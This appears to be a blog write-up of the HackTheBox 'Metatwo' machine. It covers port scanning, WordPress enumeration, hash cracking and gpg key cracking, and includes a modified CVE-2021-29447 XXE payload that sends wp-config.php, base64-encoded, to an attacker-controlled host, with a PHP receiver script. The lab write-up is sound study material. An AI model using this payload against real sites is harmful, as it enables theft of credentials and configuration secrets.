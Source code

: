 ```yaml
---
layout: post
title: "Metatwo"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, web, linux, wordpress, privesc]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


```bash
sudo nmap -sC -sV -p- -T4 -oN metatwo 10.10.11.186
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153027.png)


we got ftp, http and ssh 

I tried ftp anonymous , but didn't lead us anywhere 

let's explore the port 80 

`wordpress` , I tried `admin:admin` but didn't help 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153402.png)

if we look around and we tried to read the source page of the wordpress files we will found the following 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153826.png)

if we google this plugin
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153948.png)

![/home/user/myblog/_site](/assets/img/posts/Delivery/Pasted image 20240529154459.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529154537.png)let's crack them 

```bash
hashcat -a 0 -m 400 hashe --user --show
```

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529160523.png)
we can  login as a manager 


I will use `wpscan` to enumerate wordpress
```bash
wpscan  --url http://metapress.htb --enumerate ap --api-token CvPFdrygDgoTsTqclRanY8Xdf0r5iyLSNIP > wpscan_enumerate_ap
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529160827.png)

I will use this https://github.com/0xRar/CVE-2021-29447-PoC but I will modifcate I litle 

in the evil.dtd 
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:80/index.php?content=%file;'>" >
```

this will get us file on `base64` we can use php script to decode it on index.php
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```


now let's upload the `payload.wav` 

and run our server
```php
php -S 0.0.0.0:80
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161315.png)

http://metapress.htb/wp-admin/upload.php
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161402.png)

on our php server 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161519.png)


we got ftp creds , after login I  find a file `send_email.php` and  ssh creds on it
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161638.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161705.png)

interesting directory![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240529161736.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161815.png)

this utility used to store password and it encrypts them using the `.keys` 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240529161911.png)

cracking the private key offline

```bash
gpg2john gpg > hashes 
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162050.png)
```bash
john wordlist=/usr/share/wordlists/rockyou.txt hashes
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162311.png)
```bash
passpie export root
``` 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162504.png)
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162614.png)